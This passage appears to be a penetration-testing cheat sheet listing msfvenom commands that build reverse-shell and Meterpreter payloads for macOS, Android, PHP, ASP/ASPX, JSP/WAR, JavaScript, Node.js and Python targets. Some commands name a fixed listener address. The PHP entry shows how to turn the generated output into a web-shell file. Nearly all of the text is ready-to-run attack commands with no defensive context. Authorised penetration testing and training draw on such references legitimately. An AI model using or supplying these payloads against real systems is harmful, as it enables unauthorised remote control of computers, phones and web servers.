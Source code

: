 **mac**
```bash
msfvenom -p osx/x86/shell_reverse_tcp lhost=your-ip  lport=your-port -f macho > shell.macho

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f macho -o payload.macho
```

**android**
```bash
msfvenom -p android/meterpreter/shell_reverse_tcp lhost=your-ip  lport=your-port -f apk > shell.apk
```

##### web

**php**
```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**asp**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f asp > shell.asp
```

**Aspx**
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f aspx -o payload.aspx
```

**jsp**
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.jsp
```

**war**
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=your-ip lport=your-port -f war > shell.war
```

**javascript**
```bash
msfvenom -p windows/shell_reverse_tcp lhost=your-ip lport=your-port -f js_le -e generic/none

msfvenom -p linux/x86/shell_reverse_tcp lhost=your-ip lport=your-port CMD=/bin/bash -f js_le -e generic/none
```

**Nodejs**
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.js
```

##### scripting

**python**
```bash
msfvenom -p cmd/unix/reverse_python lhost=your-ip lport=your-port -f raw > shell.py
msfvenom -p python/shell_reverse_tcp lhost=your-ip lport=your-port -f raw
```
